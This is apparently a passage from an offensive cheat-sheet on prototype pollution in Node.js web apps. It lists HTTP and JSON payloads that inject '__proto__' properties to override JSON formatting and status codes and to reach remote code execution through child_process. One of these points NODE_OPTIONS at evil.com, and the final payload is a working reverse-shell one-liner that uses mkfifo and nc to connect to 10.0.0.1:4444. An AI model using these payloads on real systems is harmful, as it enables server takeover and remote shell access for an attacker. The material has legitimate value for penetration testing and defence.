 ### JSON Spaces Overriding

```http
POST /user/update HTTP/1.1
Host: example.com
content-type: application/json

{
    "name": "john",
    "email": "john@example.com",
    "__proto__": {
        "json spaces": 10
    }
}

```

### Status Code Overriding

```http
POST /user/update HTTP/1.1
Host: example.com
content-type: application/json

{
    "name": "john",
    "email": "john@example.com",
    "__proto__": {
        "status": 555
    }
}
```

### RCE via **`child_process`**

```json
"__proto__": {
    "shell": "node",
    "NODE_OPTIONS": "--inspect=evil\"\".com"
}
```

**shell**: It enables us to set a specific shell such as **`sh`**, **`bash`**, in which to run commands.

**NODE\_OPTIONS**: The environment variable that defines the command-line arguments.

### RCE via `child_process.spawn()`, `child_process.fork()`

```json
"__proto__": {
    "execArgv": [
        "--eval=require('child_process').execSync('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f')"
]}
```

